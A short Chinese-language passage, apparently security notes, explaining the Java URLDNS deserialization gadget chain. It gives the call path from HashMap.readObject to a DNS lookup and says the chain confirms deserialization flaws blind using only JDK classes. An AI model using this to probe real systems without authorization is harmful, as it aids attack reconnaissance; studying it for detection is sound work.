
整个调用链如下：
```java
HashMap.readObject() ->  HashMap.putVal() -> HashMap.hash()  -> URL.hashCode() -> URLStreamHandler.hashCode().getHostAddress() -> URLStreamHandler.getHostAddress().InetAddress.getByName()
```
URLDNS 这个利用链主要用来**检测是否存在反序列化漏洞**，有如下两个优点：

- 使用java 内部的类进行构造，不依赖第三方库
- **如果目标可以出网**，在目标**没有回显的时候**，可以用来验证是否存在反序列化漏洞
